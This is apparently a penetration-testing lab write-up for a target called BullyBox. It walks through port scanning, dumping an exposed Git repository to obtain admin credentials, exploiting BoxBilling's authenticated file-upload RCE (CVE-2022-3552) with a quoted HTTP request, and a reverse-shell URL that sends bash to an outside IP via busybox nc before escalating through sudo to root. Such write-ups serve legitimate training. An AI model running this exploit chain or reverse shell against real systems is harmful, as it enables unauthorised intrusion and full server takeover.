







My methodology typically begins with three Nmap scans. First, I scan all 65,535 TCP ports. Next, I perform a service enumeration on the discovered ports, and finally, I scan the top 10 UDP ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:07 UTC
Nmap scan report for 192.168.186.27
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 22,80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:10 UTC
Nmap scan report for 192.168.186.27
Host is up (0.045s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_ 256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:10 UTC
Nmap scan report for 192.168.186.27
Host is up (0.044s latency).
PORT STATE SERVICE
53/udp closed domain
67/udp closed dhcps
123/udp closed ntp
135/udp closed msrpc
137/udp closed netbios-ns
138/udp open|filtered netbios-dgm
161/udp open|filtered snmp
445/udp closed microsoft-ds
631/udp closed ipp
1434/udp closed ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 5.09 seconds
Whenever I encounter an HTTP service, my first step is to run Nmap’s http-enum scripts, as they often reveal some low-hanging fruits.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 80
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-26 17:12 UTC
Nmap scan report for 192.168.186.27
Host is up (0.043s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 13.25 seconds
I mapped the domain name to the target IP address and updated the /etc/hosts file accordingly.
┌──(kali㉿kali)-[~/Desktop]
└─$ echo '192.168.186.27 bullybox.local' | sudo tee -a /etc/hosts
[sudo] password for kali:
192.168.186.27 bullybox.local
Browsing the service on port 80 revealed BoxBilling. While I found an RCE exploit in Searchsploit, I noted that it required valid authentication.

┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit boxbilling
-------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
BoxBilling 3.6.11 - 'mod_notification' Persistent Cross-Site Scripting | php/webapps/30083.txt
BoxBilling<=4.22.1.5 - Remote Code Execution (RCE) | php/webapps/51108.txt
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
I then proceeded with further enumeration, ranging from checking /robots.txt to performing directory brute-forcing with gobuster. This led to the discovery of a /.git directory.
# If the BoxBilling site is installed within a folder such as at
# e.g. www.example.com/boxbilling/ the robots.txt file MUST be
# moved to the site root at e.g. www.example.com/robots.txt
# AND the BoxBilling folder name MUST be prefixed to the disallowed
# path, e.g. the Disallow rule for the /bb-data/ folder
# MUST be changed to read Disallow: /boxbilling/bb-data/
#
# For more information about the robots.txt standard, see:
# <http://www.robotstxt.org/orig.html>
#
# For syntax checking, see:
# <http://www.sxw.org.uk/computing/robots/check.html>
User-agent: *
Disallow: /bb-data/
Disallow: /bb-library/
Disallow: /bb-locale/
Disallow: /bb-modules/
Disallow: /bb-uploads/
Disallow: /bb-vendor/
Disallow: /install/
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://bullybox.local> -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: <http://bullybox.local>
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git (Status: 301) [Size: 315] [--> <http://bullybox.local/.git/>]
/.git/HEAD (Status: 200) [Size: 23]
/.git/config (Status: 200) [Size: 92]
/.git/logs/ (Status: 403) [Size: 279]
/.hta (Status: 403) [Size: 279]
/.htaccess (Status: 403) [Size: 279]
/.htpasswd (Status: 403) [Size: 279]
/.git/index (Status: 200) [Size: 495864]
...
[truncated]
...
/Documents and Settings (Status: 403) [Size: 279]
/LICENSE (Status: 200) [Size: 11346]
/Program Files (Status: 403) [Size: 279]
/_ (Status: 200) [Size: 3971]
/about-us (Status: 200) [Size: 9436]
/akeeba.backend.log (Status: 403) [Size: 279]
/api/experiments (Status: 200) [Size: 77]
/api/experiments/configurations (Status: 200) [Size: 93]
/balance (Status: 302) [Size: 0] [--> <http://bullybox.local/client/balance>]
/blog (Status: 200) [Size: 10663]
/cart (Status: 200) [Size: 9299]
/client (Status: 302) [Size: 3994] [--> <http://bullybox.local/login>]
/contact-us (Status: 200) [Size: 11039]
/dashboard (Status: 302) [Size: 13538] [--> <http://bullybox.local/login>]
/development.log (Status: 403) [Size: 279]
/email (Status: 302) [Size: 8976] [--> <http://bullybox.local/login>]
/emails (Status: 302) [Size: 8976] [--> <http://bullybox.local/login>]
/example (Status: 200) [Size: 4185]
/forum (Status: 200) [Size: 9808]
/index.php (Status: 200) [Size: 10462]
/invoice (Status: 302) [Size: 9558] [--> <http://bullybox.local/login>]
/kb (Status: 200) [Size: 9522]
/login (Status: 200) [Size: 14605]
/me (Status: 302) [Size: 0] [--> <http://bullybox.local/client/profile>]
/news (Status: 200) [Size: 10663]
/order (Status: 200) [Size: 12532]
/php.ini (Status: 403) [Size: 279]
/privacy-policy (Status: 200) [Size: 10669]
/production.log (Status: 403) [Size: 279]
/reports list (Status: 403) [Size: 279]
/robots.txt (Status: 200) [Size: 716]
/server-status (Status: 403) [Size: 279]
/service (Status: 302) [Size: 9188] [--> <http://bullybox.local/login>]
/sitemap.xml (Status: 200) [Size: 1719]
/spamlog.log (Status: 403) [Size: 279]
/support (Status: 302) [Size: 11285] [--> <http://bullybox.local/login>]
/tos (Status: 200) [Size: 10263]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
Using git-dumper, I dumped the entire Git repository.
git-dumper <http://bullybox.local> git_directory
┌──(kali㉿kali)-[~/Desktop/git_directory]
└─$ ls -la
total 676
drwxrwxr-x 10 kali kali 4096 Jan 26 17:28 .
drwxr-xr-x 6 kali kali 4096 Jan 26 17:27 ..
-rwxrwxr-x 1 kali kali 938 Jan 26 17:28 bb-config.php
-rw-rw-r-- 1 kali kali 2881 Jan 26 17:28 bb-config-sample.php
-rw-rw-r-- 1 kali kali 1080 Jan 26 17:28 bb-cron.php
drwxrwxr-x 2 kali kali 4096 Jan 26 17:28 bb-data
-rw-rw-r-- 1 kali kali 11338 Jan 26 17:28 bb-di.php
-rw-rw-r-- 1 kali kali 1843 Jan 26 17:28 bb-ipn.php
drwxrwxr-x 10 kali kali 4096 Jan 26 17:28 bb-library
-rw-rw-r-- 1 kali kali 10840 Jan 26 17:28 bb-load.php
drwxrwxr-x 3 kali kali 4096 Jan 26 17:28 bb-locale
drwxrwxr-x 50 kali kali 4096 Jan 26 17:28 bb-modules
drwxrwxr-x 6 kali kali 4096 Jan 26 17:28 bb-themes
-rw-rw-r-- 1 kali kali 30279 Jan 26 17:28 bb-update.php
drwxrwxr-x 3 kali kali 4096 Jan 26 17:28 bb-uploads
drwxrwxr-x 19 kali kali 4096 Jan 26 17:28 bb-vendor
-rw-rw-r-- 1 kali kali 24672 Jan 26 17:28 CHANGELOG.md
drwxrwxr-x 7 kali kali 4096 Jan 26 17:28 .git
-rw-rw-r-- 1 kali kali 2353 Jan 26 17:28 .htaccess
-rw-rw-r-- 1 kali kali 825 Jan 26 17:28 index.php
-rw-rw-r-- 1 kali kali 11346 Jan 26 17:28 LICENSE
-rw-rw-r-- 1 kali kali 507905 Jan 26 17:28 rb.php
-rw-rw-r-- 1 kali kali 10039 Jan 26 17:28 README.md
-rw-rw-r-- 1 kali kali 716 Jan 26 17:28 robots.txt
Inside bb-config.php, I discovered a set of credentials.
┌──(kali㉿kali)-[~/Desktop/git_directory]
└─$ cat bb-config.php
<?php
return array (
'debug' => false,
'salt' => 'b94ff361990c5a8a37486ffe13fabc96',
'url' => '<http://bullybox.local/>',
'admin_area_prefix' => '/bb-admin',
'sef_urls' => true,
'timezone' => 'UTC',
'locale' => 'en_US',
'locale_date_format' => '%A, %d %B %G',
'locale_time_format' => ' %T',
'path_data' => '/var/www/bullybox/bb-data',
'path_logs' => '/var/www/bullybox/bb-data/log/application.log',
'log_to_db' => true,
'db' =>
array (
'type' => 'mysql',
'host' => 'localhost',
'name' => 'boxbilling',
'user' => 'admin',
'password' => 'Playing-Unstylish7-Provided',
),
'twig' =>
array (
'debug' => true,
'auto_reload' => true,
'cache' => '/var/www/bullybox/bb-data/cache',
),
'api' =>
array (
'require_referrer_header' => false,
'allowed_ips' =>
array (
),
'rate_span' => 3600,
'rate_limit' => 1000,
),
);
Furthermore, running git log -p exposed the admin’s email and the username “Yuki.”
┌──(kali㉿kali)-[~/Desktop/git_directory/.git]
└─$ git log -P
commit ccf7c701c4bd22484cbe5d9f8f92511261aadef0 (HEAD -> master)
Author: Yuki <admin@bullybox.local>
Date: Tue Jun 27 04:35:12 2023 +0000
Ready For launch
I tested these credentials on the /bb-admin login page and successfully authenticated as an administrator.


With valid credentials in hand, I attempted the Authenticated RCE exploit I had identified earlier.
┌──(kali㉿kali)-[~/Desktop]
└─$ cat 51108.txt
# Exploit Title: BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)
# Date: 2022-09-18
# Exploit Author: zetc0de
# Vendor Homepage: <https://www.boxbilling.org/>
# Software Link:
<https://github.com/boxbilling/boxbilling/releases/download/4.22.1.5/BoxBilling.zip>
# Version: <=4.22.1.5 (Latest)
# Tested on: Windows 10
# CVE : CVE-2022-3552
# BoxBilling was vulnerable to Unrestricted File Upload.
# In order to exploit the vulnerability, an attacker must have a valid
authenticated session as admin on the CMS.
# With at least 1 order of product an attacker can upload malicious file to
hidden API endpoint that contain a webshell and get RCE
###################################################################################
## POC
POST /index.php?_url=/api/admin/Filemanager/save_file HTTP/1.1
Host: local.com:8089
Content-Length: 52
Accept: application/json, text/javascript, */*; q=0.01
DNT: 1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=3nrf9i4mv28o5anva77ltq042d
Connection: close
order_id=1&path=ax.php&data=<%3fphp+phpinfo()%3b%3f>
POC Video :
<https://drive.google.com/file/d/1m2glCeJ9QXc8epuY2QfvbWwjLTJ8_Hjx/view?usp=sharing>
After analyzing the code, I executed the exploit. I confirmed it was working by successfully rendering the phpinfo page.



I replaced the command with a reverse shell payload, which successfully granted me a shell as the user “yuki.”

<http://bullybox.local/ax.php?cmd=busybox%20nc%20192.168.45.236%2080%20-e%20/bin/bash>
yukiyuki@bullybox:/var/www/bullybox$ whoami
yuki
yuki@bullybox:/var/www/bullybox$ id
uid=1001(yuki) gid=1001(yuki) groups=1001(yuki),27(sudo)
yuki@bullybox:/var/www/bullybox$
Once I gained shell access, I checked the user’s privileges using sudo -l. This revealed that Yuki was authorized to run all commands with elevated (root) privileges. I executed /bin/bash -p to spawn a shell with these elevated privileges, successfully obtaining root access.
yuki@bullybox:/home$ sudo -l
Matching Defaults entries for yuki on bullybox:
env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty
User yuki may run the following commands on bullybox:
(ALL : ALL) ALL
(ALL) NOPASSWD: ALL
rootyuki@bullybox:/home$ sudo /bin/bash -p
root@bullybox:/home# whoami
root
found proof.txt
root@bullybox:~# ls
email6.txt proof.txt snap
root@bullybox:~# cat proof.txt
a46...